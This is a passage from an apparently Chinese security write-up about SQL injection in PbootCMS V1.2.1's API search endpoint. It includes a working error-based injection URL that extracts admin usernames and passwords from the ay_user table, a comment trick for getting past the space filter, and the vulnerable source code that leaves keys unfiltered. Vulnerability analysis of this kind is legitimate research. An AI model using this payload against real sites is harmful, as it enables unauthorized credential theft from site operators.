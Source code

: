 这里就将重要的方法分析一下了，其他无关的就删除掉避免影响阅读。
这里接收了外部了外部所有的get参数然后就直接拼接进入\$where2这个数组
然后带入数据库进行getList方法查询，而底层是字符串拼接，过滤了value没有过滤key所以有注入

0x10 api模块注入
----------------

api模块的注入需要后端开启api功能，并且获得 api\_appid 与 api\_secret
才能注入。 或是说 开启了api功能并且关闭了API强制认证 这样也可以注入
所以较鸡助

![](./resource/PbootCMSsql注入/media/rId44.jpg)

0x10.1 接口注入一
-----------------

### 0x10.1.1 漏洞演示

    url:http://127.0.0.1/cms/PbootCMS-V1.2.1/api.php/cms/search?1%3D1)and(updatexml(1,concat(0x7e,(SELECT/**/distinct/**/concat(0x23,username,0x3a,password,0x23)/**/FROM/**/ay_user/**/limit/**/0,1),0x7e),1))--=1
    post：
        11=11

一定要post 要跑空post才能进流程

因为系统中会把 "空格"转为"\_" 所以使用/\*\*/绕过即可

### 0x10.1.2 漏洞讲解

路径：apps\\api\\controller\\CmsController.php 方法：search(
这里我把漏洞触发点发出来我们主要讲讲他即可

    // 数据接收
    foreach ($_GET as $key => $value) {
      if (! ! $value = get($key, 'vars')) {
        $where[$key] = $value;
      }
    }
    $data = $this->model->getList($acode, $scode, $num, $order, $where, $fuzzy);

从代码中看他会收集外部所有的 \$\_GET 带入 getList 进行入库查询 value
是我们无法控制所以无法注入的，可是key是我们可控制可注入的！！！跟进
getList方法 路径：PbootCMS-V1.2.1\\apps\\api\\model\\CmsModel.php
function getList(

    // 列表内容
        public function getList($acode, $scode, $num, $order, $where = array(), $fuzzy = true)
        {
            ...
            // 筛选条件支持模糊匹配
            return parent::table('ay_content a')->field($fields)
                ->where($where1, 'OR')
                ->where($where2)
                ->where($where, 'AND', 'AND', $fuzzy)
                ->join($join)
                ->order($order)
                ->page(1, $num)
                ->decode()
                ->select();
        }
